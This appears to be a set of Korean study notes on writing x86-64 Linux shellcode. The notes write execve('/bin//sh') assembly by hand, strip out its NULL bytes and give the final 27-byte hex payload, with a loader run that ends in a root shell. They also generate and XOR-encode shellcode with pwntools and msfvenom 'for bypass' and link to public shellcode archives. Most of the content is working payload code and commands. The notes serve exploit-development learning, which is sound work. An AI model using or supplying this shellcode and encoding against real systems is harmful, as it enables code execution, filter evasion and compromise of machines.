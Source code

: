 # 실전 셸코드 제작 및 실행 기법 요약 정리

## 셸코드를 직접 작성: /bin/sh 셸코드

### 사용 시스템콜: `execve()`
```c
execve("/bin//sh", ["/bin//sh"], NULL);
```

### 레지스터 할당
- `rax`: 59 (execve syscall 번호)
- `rdi`: "/bin//sh" 문자열의 주소
- `rsi`: 인자 배열 주소 (["/bin//sh"])
- `rdx`: NULL

> **'/bin//sh'에서 //를 넣은 이유:** 총 길이를 8바이트로 맞추기 위함이다. 이는 64비트 레지스터 크기에 딱 맞게 하여, 남은 찌꺼기 처리 없이 그대로 mov 명령어로 레지스터에 넣을 수 있기 때문. Linux에서는 슬래시가 두 개여도 무시되기 때문에 익스플로잇에서 자주 쓰는 트릭이다.

### 기본 어셈블리 코드 예시
```nasm
global _start

section .text
_start:
    mov rax, 59         ; execve 시스템 호출 번호 설정 (execve = 59)
    push 0              ; 문자열 끝을 나타내기 위해 NULL(0) 푸시
    mov rdi, '/bin//sh' ; 첫 번째 인자: 실행할 프로그램 경로 (/bin/sh)
    push rdi            ; 문자열을 스택에 푸시
    mov rdi, rsp        ; rdi에 프로그램 경로의 주소 설정
    push 0              ; 두 번째 인자 배열의 끝을 나타내기 위해 NULL 푸시
    push rdi            ; 두 번째 인자: 인자 배열에 프로그램 경로 주소 푸시
    mov rsi, rsp        ; rsi에 인자 배열의 주소 설정
    mov rdx, 0          ; 환경 변수는 사용하지 않으므로 NULL로 설정
    syscall             ; 시스템 호출 실행 (execve("/bin/sh", ["/bin/sh"], NULL))
```
> 해석하면 **맨 앞바이트가 NULL (0x00) 이 들어가게 됨**.
이 NULL 바이트가 쉘코드 전체를 문자열로 해석하는 도중 조기 종료를 유발해서,
**쉘코드가 중간에 짤려버리는 위험**이 있다.

### 수정된 어셈블리 코드 예시 (NULL 제거 버전)
```nasm
_start:
    mov al, 59          ; execve 시스템 콜 번호 설정 (al = 59)
    xor rdx, rdx        ; rdx를 0으로 초기화 (환경 변수는 NULL로 설정)
    push rdx            ; NULL 문자열 종료자 푸시
    mov rdi, '/bin//sh' ; 실행할 프로그램 경로 '/bin//sh'를 rdi에 저장
    push rdi            ; 스택에 '/bin//sh' 푸시
    mov rdi, rsp        ; rdi를 스택의 현재 위치(= 문자열 시작 주소)로 설정
    push rdx            ; NULL 포인터 푸시 (인자 배열의 끝 표시)
    push rdi            ; '/bin//sh' 문자열 주소 푸시 (인자 배열 시작)
    mov rsi, rsp        ; rsi를 인자 배열의 시작 주소로 설정
    syscall             ; execve("/bin/sh", ["/bin/sh"], NULL) 실행
```

### NULL 제거 버전으로 수정 후 결과:
```bash
$ python3 shellcoder.py sh
b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes
```

---

## 실행 결과:
```bash
$ python3 loader.py 'b03b48...'
$ whoami
root
```

---

## 자동 셸코드 생성 도구들

### pwntools: shellcraft
```bash
$ pwn shellcraft amd64.linux.sh
```

### 고급 사용:
```python
>>> from pwn import *
>>> shellcode = shellcraft.execve('/bin/sh', ['/bin/sh'])
>>> asm(shellcode).hex()
```

### 실행:
```bash
$ python3 loader.py '<hex 코드>'
$ whoami
root
```

---

### msfvenom
```bash
$ msfvenom -p linux/x64/exec CMD='sh' -f hex
```

### 실행:
```bash
$ python3 loader.py '<생성된 hex 코드>'
$ whoami
root
```

---

## 셸코드 인코딩 (바이패스용)

### 인코딩 예시
```bash
$ msfvenom -p linux/x64/exec CMD='sh' -f hex -e x64/xor
```

- NULL 제거 및 바이패스 가능성 향상
- 하지만 크기는 증가함

### 커스텀 셸코드 인코딩
```bash
$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('<hex>'))" > shell.bin
$ msfvenom -p - -f hex -e x64/xor < shell.bin
```

---

## 온라인 셸코드 리소스
- Shell-Storm: https://shell-storm.org/shellcode/
- Exploit-DB: https://exploit-db.com

예: 최적화된 /bin/sh 셸코드 → 22~27 바이트

---

## 요약
- 셸코드는 간단한 코드가 아님 → 메모리에 직접 로딩, NULL 제거, 크기 최적화 필요
- 직접 작성, 자동 생성 도구(pwntools, msfvenom), 온라인 검색 등 다양한 방식 활용 가능
